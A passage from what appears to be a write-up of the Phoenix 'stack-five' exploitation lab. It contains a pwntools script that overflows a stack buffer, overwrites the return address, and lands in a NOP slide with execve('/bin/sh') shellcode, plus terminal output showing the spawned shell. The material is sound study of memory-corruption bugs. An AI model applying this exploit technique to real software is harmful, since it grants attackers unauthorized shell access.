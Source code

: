 ```python
# Building payload
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
nop_slide = b'\x90' * 100
shellcode = asm(shellcraft.linux.sh()) # Output from shellcraft will be the assembly code below. using asm() to compile it into raw bytes

'''
Shellcode in assembly:
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
'''

# Finally, putting them together into one payload
payload = PADDING + rip + nop_slide + shellcode

# Sending the payload
p.sendlineafter(b'education\n', payload)

# Going into interactive mode to interact with new shell
p.interactive()
```

We send the payload to the process we opened with `p.sendlineafter()` to send the payload right after the banner is printed. 

Then we go into interactive mode to input commands into the new `/bin/sh` process.

```bash
user@phoenix-amd64:/opt/phoenix/amd64$ ./solve_stack-five.py
[+] Starting local process '/opt/phoenix/amd64/stack-five': pid 1219
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
```
